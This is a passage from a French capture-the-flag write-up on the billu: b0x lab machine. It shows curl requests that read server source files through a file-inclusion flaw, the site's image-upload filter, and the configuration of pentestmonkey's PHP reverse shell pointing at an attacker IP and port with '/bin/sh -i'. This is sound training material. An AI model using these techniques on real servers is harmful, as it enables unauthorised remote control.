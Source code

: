 La fonction ```Add User``` permet de créer une entrée dans la table ```users``` et surtout d'uploader une image. L'objectif est de détourner la fonction d'upload et de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/add.php"
--snip--
    Select image to upload:
    <input type="file" name=image>
	<input type=text name=name value="name">
	<input type=text name=address value="address">
	<input type=text name=id value=1337 >
    <input type="submit" value="upload" name="upload">
--snip--
```

Attention cependant, il y a des restrictions à l'upload !

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/panel.php"
--snip--
	$r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
	$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
				{
--snip--
			else
			{
				echo "<br>i told you dear, only png,jpg and gif file are allowed";
			}
	}
	else
	{
		echo "<br>only png,jpg and gif file are allowed";
		
	}
```

Le principe est le suivant : un reverse shell en PHP va être créé et déposé sur le serveur. Ce bout de code va créer une connexion sur le port 12345 entre le serveur billu: b0x (192.168.56.107) et notre propre machine (192.168.56.102). Le reverse shell mis à disposition par [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) va être mis en oeuvre.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.102';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
